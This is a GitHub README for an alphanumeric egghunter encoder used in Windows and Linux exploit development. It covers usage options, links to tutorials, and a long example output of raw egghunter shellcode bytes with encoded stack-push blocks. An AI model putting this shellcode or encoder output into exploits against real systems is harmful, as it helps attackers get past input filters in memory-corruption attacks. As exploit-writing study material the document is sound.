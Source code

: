 ## hunter-pusher.py
**hunter-pusher.py** is an experimental alphanumeric egghunter encoder. This tool allows the user to generate one of several egghunters listed in Skape's (Matt Miller's) <a href="http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf" target="_blank">paper</a> titled, _Safely Searching Process Virtual Address Space_, with several customization options. These options include user-defined padding bytes, tag, and bad characters to exclude.  

The output is formatted in blocks to represent the manipulation of the **eax** register reproducing four bytes of the chosen egghunter at a time. This egghunter encoding technique is used in situations where the attacker's raw egghunter is corrupted in memory. Details are covered in this Corelan <a href="https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/" target="_blank">article</a> and piggybacked in a personal <a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-1" target="_blank">blog post</a>.

Feedback is always welcome.



# Usage
```
usage: hunter-pusher.py [-h] [-b BAD CHARS] [-e #] [-p PAD] [-t TAG]

Alphanumeric egghunter stack pusher

optional arguments:
  -h, --help            show this help message and exit
  -b BAD CHARS, --bad BAD CHARS
                        Bad characters to exclude in payload
                        e.g. '\x00\xb4\xd9'
                        Default: Non-alphanumeric characters
  -e #, --egghunter #   Specific egghunter to encode:
                        0: Windows - SEH - 60 bytes
                        1: Windows - IsBadReadPtr - 40 bytes
                        2: Windows - NtDisplayString - 32 bytes
                        3: Windows - NtAccessCheckAndAuditAlarm - 32 bytes
                        4: Linux - access(2) - 40 bytes
                        5: Linux - access(2) revisited - 36 bytes
                        6: Linux - sigaction(2) - 32 bytes
                        Default: 2
  -p PAD, --pad PAD     Byte to pad egghunter with before encoding
                        e.g. '\x90'
                        Default: \x90
  -t TAG, --tag TAG     Four byte tag that egghunter will search for
                        e.g. 'w00t'
                        Default: w00t
```



# Example

**./hunter-pusher.py -b '\x00\x0a\x0d\xd3\xad\xb3\x3f\xff' -e 1 -p '\x41' -t 'w00t'**

These flags specify the generation of an **IsBadReadPtr** egghunter padded with "\x41", using a tag "w00t".
Bad characters as specified by the user will be excluded from the egghunter and will not appear in the _raw form_ (after blocks are pushed onto the stack).

```
Raw egghunter bytes: 33DB6681CBFF0F436A0853B80D5BE777FFD085C075ECB8773030748BFBAF75E7AF75E4FFE7414141

******BLOCK 0*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x5d\x3d\x3e\x3e
\x2d\x5e\x40\x40\x40
\x2d\x5e\x40\x40\x40
\x50
******BLOCK 1*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x70\x2d\x5e\x55
\x2d\x70\x2e\x5e\x55
\x2d\x71\x2e\x5f\x55
\x50
******BLOCK 2*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x57\x6f\x2d\x5d
\x2d\x57\x70\x2e\x5d
\x2d\x57\x70\x2e\x5e
\x50
******BLOCK 3*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x45\x45\x2e\x26
\x2d\x45\x45\x2e\x27
\x2d\x46\x45\x2f\x27
\x50
******BLOCK 4*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x2e\x5b\x6c\x2d
\x2d\x2e\x5c\x6d\x2d
\x2d\x2f\x5c\x6d\x2d
\x50
******BLOCK 5*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x55\x64\x28\x6a
\x2d\x56\x65\x28\x6a
\x2d\x56\x65\x29\x6b
\x50
******BLOCK 6*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x51\x36\x5d\x2d
\x2d\x51\x37\x5d\x2d
\x2d\x51\x37\x5e\x2d
\x50
******BLOCK 7*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x32\x52\x39\x6d
\x2d\x32\x52\x39\x6d
\x2d\x32\x53\x3a\x6d
\x50
******BLOCK 8*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x67\x55\x4f\x3e
\x2d\x67\x55\x50\x3e
\x2d\x67\x55\x50\x40
\x50
******BLOCK 9*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x44\x61\x32\x2a
\x2d\x44\x61\x33\x2a
\x2d\x45\x62\x33\x2a
\x50
```



# Credits
This tool uses a Python translation of <a href="https://github.com/gap-system/gap/blob/master/lib/combinat.gi" target="_blank">combinat.gi</a> from <a href="https://www.gap-system.org/index.html" target="_blank">GAP</a>, an open-source system for computational discrete algebra used in research and teaching.



# Creation Process
The creation of **hunter-pusher.py** is documented in the Building an Alphanumeric Encoder series at: <a href="https://datkev.github.io" target="_blank">https://datkev.github.io</a>

- [Building an Alphanumeric Encoder Part 1 - The Manual Method](https://datkev.github.io/page/building-an-alphanumeric-encoder-part-1)
- [Building an Alphanumeric Encoder Part 2 - Integer Partitions](https://datkev.github.io/page/building-an-alphanumeric-encoder-part-2)
- [Building an Alphanumeric Encoder Part 3 - Building the Encoder](https://datkev.github.io/page/building-an-alphanumeric-encoder-part-3)
- [Building an Alphanumeric Encoder Part 4 - Testing the Encoder](https://datkev.github.io/page/building-an-alphanumeric-encoder-part-4)

Part 3 of the series is dedicated to code logic.
